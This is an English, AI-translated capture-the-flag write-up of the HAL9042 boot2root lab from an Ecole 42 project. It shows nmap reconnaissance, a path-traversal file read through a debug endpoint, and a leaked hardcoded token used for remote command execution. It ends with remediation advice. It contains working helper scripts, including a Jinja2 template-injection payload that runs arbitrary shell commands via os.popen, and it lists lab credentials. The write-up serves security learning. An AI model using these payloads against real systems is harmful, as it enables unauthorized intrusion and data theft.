

# WRITEUP 1 - Boot2Root - Web Vulnerability #1 - Local File Inclusion

> [CAUTION]
> This WriteUp was AI translated from the french WriteUp version, as I am exhausted with this project, i did not took time to review.

## Context: HAL9042 Box, educational project of Ecole 42
> [!NOTE]
> WriteUp1 & WriteUp2 are written from a troubleshooting README.md that I tried to keep updated as I worked on the box.  

**Summary table of the attacked application:**
  
| Category | Element | Details / Values found |
|------------------------|------------------------------------------------|------------------------------------------------------------------------------------------|
| **General Information** | System Name | HAL9042 - Evaluation Server (v0.4) |
|                        | Environment                                  | `env=development`                                                                        |
|                        | Operating System                             | Ubuntu                                                                                   |
| **Network & IP**       | Server IP Address                            | 10.0.2.2                                                                                 |
| **Ports & Services**   | Port 5042                                    | HTTP Web Service (HAL9042 Evaluation Server)                                             |
|                        | Port 6060                                    | SSH Service                                                                              |
|                        | Port 8000 (int)                              | Python/Gunicorn Application on `127.0.0.1:8000`                                         |
|                        | Port 7042 (int)                              | Local evaluation daemon `hal9042d` on `127.0.0.1:7042`                                  |
| **Web Technologies**   | Software Stack                               | Python3, Flask, Jinja2, Gunicorn                                                         |
|                        | Application Directory                        | `/var/www/hal9042/` (which contains `app.py`, `config.py`, `venv/`)                        |
| **Endpoints & Routes** | Public Routes                                | `/`, `/status`, `/feed`, `/evaluate`, `/appeals`, `/about`, `/update`                      |
|                        | Debug Endpoints & Files                      | `/api/debug` (Local File Inclusion + Command Execution), `static/js/debug.js`            |
|                        | Specific HTTP Header                         | `X-Debug-Render: true` (allows rendering Jinja2 template injection on `/evaluate`)       |
| **System Users**       | Bash User Accounts                           | `paco`, `wil`, `sophie`, `ol`                                                            |
|                        | Dedicated / Service Accounts                 | `root`, `hal`, `halrev`                                                                  |
|                        | Deleted User Account                         | `xavier` (uid 1337)                                                                      |
| **Secrets & Credentials** | API Maintenance Token                     | `h4l_d3bug_t0k3n_2024`                                                                   |
|                        | Flask Secret Key                             | `hal9042secret`                                                                          |
|                        | SSH ID                                       | `paco` : `Pac0_H4L_dev!`                                                                 |
|                        | SSH Passphrase `sophie`                      | `iloveyou` (file: `id_rsa_sophie.enc`)                                                   |
|                        | `.key_part`:`ol`                             | `M0ul1n3tt3`                                                                             |
|                        | `.key_part`:`wil`                            | `847_4n0m4l13s`                                                                  |
|                        | `.key_part`:`sophie`                         | `S0ph13_J14`                                                                             |
|                        | `.key_part`:`xavier`                         | `uid1337`                                                                                |
|                        | AES-256 Key to decrypt `rapport_final.enc` | `380f5c29228093385507c1a9e351610a9144105e358e35abb8539250c033b44e`                       |


### PHASE 1 - Reconnaissance / Enumeration:
---
#### 1. ARP
```bash
┌──(kali㉿kali)-[~/boot2root_scripts]
└─$ arp -a
? (10.0.2.2) at 52:54:00:12:35:02 [ether] on eth0
c2r3p4.42lehavre.fr (10.12.3.4) at 00:be:43:89:f2:1d [ether] on eth1
```
---
#### 2. NMAP
```bash
┌──(kali㉿kali)-[~/boot2root_scripts]
└─$ nmap -p- 10.0.2.2
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-21 11:31 EDT
Nmap scan report for 10.0.2.2
Host is up (0.00012s latency).
Not shown: 65518 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
111/tcp   open  rpcbind
1337/tcp  open  waste
2049/tcp  open  nfs
4242/tcp  open  vrml-multi-use
4444/tcp  open  krb524
5042/tcp  open  asnaacceler8db
6060/tcp  open  x11
6379/tcp  open  redis
9100/tcp  open  jetdirect
11434/tcp open  unknown
36965/tcp open  unknown
37643/tcp open  unknown
41295/tcp open  unknown
46583/tcp open  unknown
47129/tcp open  unknown
60675/tcp open  unknown
MAC Address: 52:54:00:12:35:02 (QEMU virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.77 seconds
```

```bash
┌──(kali㉿kali)-[~/boot2root_scripts]
└─$ nmap -sV -p 22,111,1337,2049,4242,5042,6060,6379,9100,11434,36965,37643,41295,46583,47129,60675 10.0
.2.2
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-21 11:33 EDT
Nmap scan report for 10.0.2.2
Host is up (0.0017s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
111/tcp   open  rpcbind    2-4 (RPC #100000)
1337/tcp  open  http       Golang net/http server
2049/tcp  open  nfs_acl    3 (RPC #100227)
4242/tcp  open  http       WSGIServer 0.2 (Python 3.10.12)
5042/tcp  open  http       nginx 1.24.0 (Ubuntu)
6060/tcp  open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.19 (Ubuntu Linux; protocol 2.0)
6379/tcp  open  redis      Redis key-value store 6.0.16
9100/tcp  open  jetdirect?
11434/tcp open  http       Golang net/http server
36965/tcp open  fmproduct  1-4 (RPC #1073741824)
37643/tcp open  nlockmgr   1-4 (RPC #100021)
41295/tcp open  mountd     1-3 (RPC #100005)
46583/tcp open  status     1 (RPC #100024)
47129/tcp open  mountd     1-3 (RPC #100005)
60675/tcp open  mountd     1-3 (RPC #100005)
```

**What the scans reveal:** 
| Port   | Service          | Interest                                                  |
|--------|------------------|----------------------------------------------------------|
| `22`     | OpenSSH 8.9 SSH  | **No:** Classic SSH Access                                 |
| `111`    | rpcbind          | **No:** Tested, no NFS interest                            |
| `1337`   | Go HTTP          | **Yes:** No permissions for now, but keep in mind |
| `2049`   | NFS              | **No:** showmount gives no export                     |
| `4242`   | Python WSGI HTTP | **Yes:** `{{'ftpkg-srv'}}` => ? To check                      |
| `5042`   | nginx -> HTTP    | **Yes:** HAL9042 Application                                 |
| `6060`   | OpenSSH SSH      | **Yes:** User SSH Service                                    |
| `6379`   | Redis            | **Yes**                                                      |
| `11434`  | Go HTTP          | **Yes**                                                      |
| `36965+` | RPC/mountd/nlock | **No:** linked with NFS but nothing to dig here               |
*Thanks: [TableGenerator](https://www.tablesgenerator.com/markdown_tables)*  

#### 3. SMTP: 
```bash
┌──(kali㉿kali)-[~/boot2root_scripts]
└─$ sudo nmap -p 25 --script smtp-enum-users 10.0.2.2          
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-21 12:07 EDT
Nmap scan report for 10.0.2.2
Host is up (0.00023s latency).

PORT   STATE  SERVICE
25/tcp closed smtp
MAC Address: 52:54:00:12:35:02 (QEMU virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
```  
Source : [geeksforgeeks](https://www.geeksforgeeks.org/ethical-hacking/smtp-enumeration/0)

#### 4. DNS: 
```bash
┌──(kali㉿kali)-[~/boot2root_scripts]
└─$ nmap -sSU -p 53 --script dns-nsec-enum --script-args dns-nsec-enum.domains=example.com 10.0.2.2 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-21 12:11 EDT
Nmap scan report for 10.0.2.2
Host is up (0.00022s latency).

PORT   STATE         SERVICE
53/tcp closed        domain
53/udp open|filtered domain
| dns-nsec-enum: 
|_  No NSEC records found
MAC Address: 52:54:00:12:35:02 (QEMU virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 8.49 seconds
```
---

### UTILITIES 

The user enumeration phase required the following scripts: (made possible by the vulnerabilities exposed below)  

#### 1. `get_file.sh`
- Allows viewing a file's content as long as its path is known (executed with the privileges of `/var/www/hal9042`).

```bash
#!/bin/bash

if [ "$#" -eq 0 ]; then
    echo "Usage: $0 \"<file_path>\""
    exit 1
fi

FILE="$*"

curl "http://10.0.2.2:5042/api/debug?file=$FILE"
```

#### 2. `post_evaluate.sh`
- To be filled
```bash
#!/bin/bash

if [ "$#" -eq 0 ]; then
    echo "Usage: $0 \"shell command\""
    exit 1
fi

COMMAND="$*"

# if you reuse this, make sure to modify the ip
curl -s -X POST http://10.0.2.2:5042/evaluate \
    -H "X-Debug-Render: true" \
    --data-urlencode "project_name={{ \"\".__class__.__mro__[1].__subclasses__()[540].__init__.__globals__[\"os\"].popen(\"$COMMAND\").read() }}"
```
---
### PHASE 2 - Attack on http://10.0.2.2:5042  
#### A. Local File Inclusion (LFI)  

On the browser, we are served this web page:  
  
Inspecting the page source code via this request: `curl http://10.0.2.2:5042`  
We come across interesting clues:  
```html
<!-- TODO: remove /api/debug before launch -->
<!-- debug.js still in /static/js/ pls remove -->
<!-- norm errors everywhere but ship it -->
```  
We then proceed with:  
```bash
┌──(kali㉿kali)-[~/boot2root_scripts]
└─$ curl http://10.0.2.2:5042/api/debug                                                       
HAL9042 debug endpoint.
usage: ?file=<path>  |  ?cmd=<command>&token=<maintenance_token>
```  
The `?file` QueryParam seems to allow us to retrieve application files. Under Linux, each process has a folder in the `/proc` directory. If we look for `/proc/self/cmdline`, we are clearly asking: "The arguments with which the process was launched please". We can read this file thanks to *Path Traversal* and thus confirm the **Local File Inclusion** 
  
```bash
┌──(kali㉿kali)-[~]
└─$ curl http://10.0.2.2:5042/api/debug?file=../../../../proc/self/cmdline --output cmdline_log.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   100 100   100   0     0 59559     0  --:--:-- --:--:-- --:--:-- 100000
                                                                                                        
┌──(kali㉿kali)-[~]
└─$ cat cmdline_log.txt                                                                            
/var/www/hal9042/venv/bin/python3
/var/www/hal9042/venv/bin/gunicorn
-w2
-b
127.0.0.1:8000
app:app 
```
- We now know that the Python virtual environment is located here: `/var/www/hal9042`
- If we look for `curl http://10.0.2.2:5042/api/debug/../../../../var/www/hal9042/<app.py> or <config.py>`
- `<app.py>` : Reading the source code allows us to understand that if `f` is an absolute path, `os.path.join` ignores `APP_ROOT` and directly uses the provided path, for example we can directly provide `?file=/etc/passwd`.

#### B. Remote Code Execution  
  
The `config.py` file gives us `ADMIN_TOKEN` :  
```python
# Internal maintenance token. The /api/debug console accepts this token to run
# diagnostic commands. Was supposed to be rotated before launch.
ADMIN_TOKEN = "h4l_d3bug_t0k3n_2024"
```  
Which can be used on the debug endpoint to execute a shell command.  
```bash
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.0.2.2:5042/api/debug?cmd=ls&token=h4l_d3bug_t0k3n_2024'
app.py
config.py
requirements.txt
static
templates
venv                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.0.2.2:5042/api/debug?cmd=pwd&token=h4l_d3bug_t0k3n_2024'
/var/www/hal9042
```
- **Obtaining the secret** : The previously demonstrated LFI allows us to retrieve the admin token.
- **Exploitation** : `/api/debug` has a system command execution feature that requires authentication via the `token` queryParam.
- **RCE** : We bypass the security restriction and arbitrarily execute shell commands with the privileges of `/www/var/hal9042`


## SUMMARY:

### 1. Danger Analysis:  
  
This **LFI / Path Traversal** vulnerability perfectly illustrates how a simple information leak on an unauthenticated endpoint can compromise system security.  
  
- **Total lack of authentication** : The `/api/debug` endpoint was accessible from the network without restriction or prior token acquisition. An unprivileged external attacker can explore the file system.
- **Internal reconnaissance and source code leak** : By reading `/proc/self/cmdline`, I was able to map the execution environment as well as the application tree. Direct reading of `app.py` and `config.py` strips the system of any security.
- **Secret compromise and pivoting** : Reading the configuration file exposed in plain text an `ADMIN_TOKEN` allowing us to move from a *simple* **LFI** to an **RCE (Remote Code Execution)** via the debug API.
- **Discovery of a second flaw (SSTI)** : Access to the source code allowed us to identify the second flaw detailed in [WriteUp2](../writeup2/README.md)

To summarize : LFI served as a fundamental lever to transform a web application into an entry point for total server takeover.

---

### 2. Remediation & Recommendation:  
  
To fix this vulnerability and prevent deploying this flaw into production:  
#### A. Removal / Restriction of Debug Endpoints
- No debug endpoint should be exposed in production
- Action : Remove the `/api/debug` route or use environment variables to disable these features in production  
  
#### B. Input Validation and Sanitization  
- **Whitelisting** : Restrict access paths to a predefined list of files
- **Strict path verification** : Ensure that the resolved path is strictly within an authorized directory.  
  
#### C. Secret Management  
- **Secrets out of code** : Secrets and tokens must never be hardcoded in readable configuration files. They must be injected via environment variables.
- **System permissions** : The web process must have minimum read and execution rights on its own files, but never on sensitive system files (`/etc/passwd`, `/home/`).